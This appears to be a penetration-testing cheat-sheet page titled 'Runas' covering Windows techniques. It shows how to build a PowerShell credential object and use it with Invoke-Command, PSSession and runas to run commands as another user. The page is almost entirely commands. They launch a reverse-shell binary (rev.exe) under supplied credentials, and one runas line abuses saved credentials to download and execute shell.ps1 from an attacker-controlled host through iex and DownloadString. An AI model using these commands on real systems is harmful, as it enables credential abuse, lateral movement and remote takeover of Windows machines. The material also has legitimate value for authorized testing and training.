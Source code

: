 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["powershell", "cred object", "Windows", "runas"]
---
```


### Create credential object

{{< tab set1 tab1 active >}}Method #1{{< /tab >}}
{{< tab set1 tab2 >}}Method #2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

</div>

{{< /tabcontent >}}

### Runas (with cred object)

{{< tab set2 tab1 active >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost
```

```console
# If error, try
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -ConfigurationName config_name
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```console
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession 1
```

</div>

{{< /tabcontent >}}

### Runas (with cache creds)

#### Check cache creds

<div>

```console
cmdkey /list
```

</div>

#### Run Command

<div>

```console
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```

</div>

<br>
